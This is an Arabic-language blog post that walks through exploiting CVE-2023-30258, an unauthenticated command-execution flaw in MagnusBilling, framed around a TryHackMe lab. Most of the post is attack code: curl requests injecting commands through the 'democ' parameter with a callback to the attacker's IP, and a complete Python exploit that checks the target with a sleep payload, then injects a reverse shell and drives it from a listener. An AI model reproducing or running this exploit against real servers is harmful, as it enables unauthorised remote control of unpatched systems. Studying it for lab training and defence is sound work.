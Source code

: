 ```yaml
---
title: CVE-2023-30258 PoC
date: 2025-03-22
description: سكربت بايثون يستغل ثغرة في نظام magnus billing ويفتح لك اتصال عكسي للضحية
tags: ["Exploit Development"]
categories: "Exploit_Development"
---
```


بسم الله الرحمن الرحيم، هذه الثغرة موجودة في تحدي [billing](https://tryhackme.com/room/billing) في [tryhackme](https://tryhackme.com). الثغرة موجودة في نظام magnus billing وهذا النظام مفتوح المصدر ويقدم خدمة IP telephony، هذا التقرير من [rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)
يشرح الثغرة الموجودة. الثغرة تصنيفها unauthenticated RCE وهذا يعني أنه يمديك تنفذ أوامر على السيرفر بدون تسجيل دخول.

## استغلال الثغرة يدويا:

التقرير اللي من rapid7 يقول أن فيه سكربت تجريبي في lib/icepay/icepay.php/ هذا السكربت فيه دالة exec() وهذي الدالة تاخذ parameter موجود في طلب احضار (GET) باسم democ. خلينا نرسل طلب للنقظة ونشوف
```bash
curl http://< TARGET IP >/mbilling/lib/icepay/icepay.php\?democ=URL-encoded command inside backtiks `cmd`
```
```bash
curl http://10.10.139.224/mbilling/lib/icepay/icepay.php\?democ=%60curl%20http%3A%2F%2F10%2E9%2E0%2E238%3A8080%60
```
```bash
python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.139.224 - - [24/Mar/2025 14:29:59] "GET / HTTP/1.1" 200 -
```
ممتاز، الآن عرفنا كيف نستغل الثغرة، جاء وقت الأتمتة automation

## الأتمتة | automation

### الأساس
في البداية خلينا نستقبل معلومات من المستخدم، يمديني استعمل sys.argv[] لكني راح استعمل argparse عشان المرونة
```bash
import argparse
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The url of the target')
    parser.add_argument('-l', '--local_ip', help='the Ip of your machine', required=True)
    parser.add_argument('-p','--port', help='The port that the service is running on (default 80)', type=int, default=80)
    parser.add_argument('-e', '--entry', help='entry point for the application (default mbilling)', default='mbilling')
    args = parser.parse_args()
    url, port, entry, local_ip = args.url, args.port, args.entry, args.local_ip
    vulnerable_path = "lib/icepay/icepay.php"
    full_url = f'{url}:{port}/{entry}/{vulnerable_path}'
main()
```

### التحقق من وجود الثغرة

```bash
import requests
def check_if_vulnerable(url):
    print('[+] Checking if the target is vulnerable') 
    print('[+] Sending a sleep payload, waiting for 5 seconds delay')
    res = requests.get(f'{url}?democ=`sleep 5`') # نرسل طلب للسيرفر نخليه يسكن 5 ثواني
    if res.elapsed.total_seconds() > 4.8: # إذا كانت مدة الطلب أكثر من 4.8 ثانية يعني السيرفر متأثر
        return 1
    else:
        return 0
```

### نفتح سوكت من عندنا عشان الاتصال العكسي

```bash
def create_socket(): # نسوي السوكت
    try:
        global host
        global port
        global s
        host = ''
        port = 12657
        s = socket.socket()
    except socket.error as error:
        print(f'an error occured while creating a socket: \n{error}')


# Bind the socket to the port and wait for the connection
def bind_socket():
    try:
        global host
        global port
        global s
        print(f'[+] Binding socket to port: {port}')
        s.bind((host, port)) # نشبك السوكت على المدخل
        s.listen(5) # ننتظر الاتصال ونعطيه خمس محاولات
    except socket.error as error:
        print(f'[-] An error occured while binding {error}')


def socket_accept():
    conn, address = s.accept() # إذا جاء اتصال نقبله
    print(f'[+] Connection established | IP: {address[0]} | Port: {address[1]}')
    send_commands(conn)


def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit': # نقفل الإتصال quit = إذا كان الأمر اللي رسلته
            conn.close()
            s.close()
            sys.exit()
        if len(str.encode(cmd)) > 0: # إذا كتبنا أمر، راح يتشفر وينرسل إلى السيرفر
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), 'utf-8') # نستقبل 1024 بايت من البيانات 
            print(client_response, end='')
```

### نرسل حمولة الإتصال العكسي

```bash
def get_shell(url,ip):
    print('[+] Getting a reverse shell on the target')
    payload = f'''python3 -c 'import os,socket,subprocess # كان يمديني أرسل ملف للسيرفر بعدين انفذه، لكن قلت انفذ كود من التيرمنل مباشرة عشان التخفي 
s=socket.socket()
s.connect(("{ip}",12657))
while True:
    data = s.recv(1024)
    if data[:2].decode("utf-8") == "cd":
        os.chdir(data[3:].decode("utf-8"))
    if len(data) > 0:
        cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        output_bytes = cmd.stdout.read() + cmd.stderr.read()
        output_str = str(output_bytes, "utf-8")
        s.send(str.encode(output_str + str(os.getcwd() + "# ")))
s.close()' '''
    encoded_payload = urllib.parse.quote(payload) # urlencoding لازم نشفر الحمولة
    req = requests.get(f'{url}?democ=`{encoded_payload}`') # backtik نرسل طلب للسيرفر فيه الحمولة المشفرة ، لاتنسى ال
```

### الكود كامل

```bash
#!/bin/usr/python

import requests
import argparse
import sys
import socket
import threading
import urllib.parse

def check_if_vulnerable(url):
    print('[+] Checking if the target is vulnerable')
    print('[+] Sending a sleep payload, waiting for 5 seconds delay')
    res = requests.get(f'{url}?democ=`sleep 5`')
    if res.elapsed.total_seconds() > 4.8:
        return 1
    else:
        return 0


# Create a socket for the reverse shell
def create_socket():
    try:
        global host
        global port
        global s
        host = ''
        port = 12657
        s = socket.socket()
    except socket.error as error:
        print(f'an error occured while creating a socket: \n{error}')


# Bind the socket to the port and wait for the connection
def bind_socket():
    try:
        global host
        global port
        global s
        print(f'[+] Binding socket to port: {port}')
        s.bind((host, port))
        s.listen(5)
    except socket.error as error:
        print(f'[-] An error occured while binding {error}')


def socket_accept():
    conn, address = s.accept()
    print(f'[+] Connection established | IP: {address[0]} | Port: {address[1]}')
    send_commands(conn)


def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit':
            conn.close()
            s.close()
            sys.exit()
        if len(str.encode(cmd)) > 0:
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), 'utf-8')
            print(client_response, end='')

def get_shell(url,ip):
    print('[+] Getting a reverse shell on the target')
    payload = f'''python3 -c 'import os,socket,subprocess
    s=socket.socket()
    s.connect(("{ip}",12657))
    while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == "cd":
            os.chdir(data[3:].decode("utf-8"))
        if len(data) > 0:
            cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes, "utf-8")
            s.send(str.encode(output_str + str(os.getcwd() + "# ")))
    s.close()' '''
    encoded_payload = urllib.parse.quote(payload)
    req = requests.get(f'{url}?democ=`{encoded_payload}`')


def main():
    print('[!] PoC for CVE-2023-30258, this will give you a shell, although not the best one!')
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The url of the target')
    parser.add_argument('-l', '--local_ip', help='the Ip of your machine', required=True)
    parser.add_argument('-p','--port', help='The port that the service is running on (default 80)', type=int, default=80)
    parser.add_argument('-e', '--entry', help='entry point for the application', default='mbilling')
    args = parser.parse_args()
    url, port, entry, local_ip = args.url, args.port, args.entry, args.local_ip
    vulnerable_path = "lib/icepay/icepay.php"
    full_url = f'{url}:{port}/{entry}/{vulnerable_path}'
    check = check_if_vulnerable(full_url)
    if check != 1:
        print('[-] The target is NOT VULNERABLE, try running the script again')
        sys.exit()
    print('[+] The target is VULNERABLE')
    thread = threading.Thread(target=socket_accept, daemon=True)
    create_socket()
    bind_socket()
    thread.start() # ننتظر الاتصال، فتحت ثريد جديد شغالة عليه الدالة المسؤولة عن قبول الاتصال
    get_shell(full_url, local_ip) # لو ما فتحت ثريد الدالة هذي ماراح تتفعل
    thread.join()
main()
```
نلاحظ في آخر الدالة الرئيسية إني استخدمت الثريد، عشان لازم استمع للمدخل من جهازي وأنتظر أي اتصال، والدالة socket_accept() هي المسؤولة عن قبول الاتصال، لو ما فتحت ثريد جديد البرنامج راح يوقف عند الدالة هذي وينتظر الاتصال وأنا احتاج أرسل الحمولة حقتي في أثناء انتظاري للإتصال.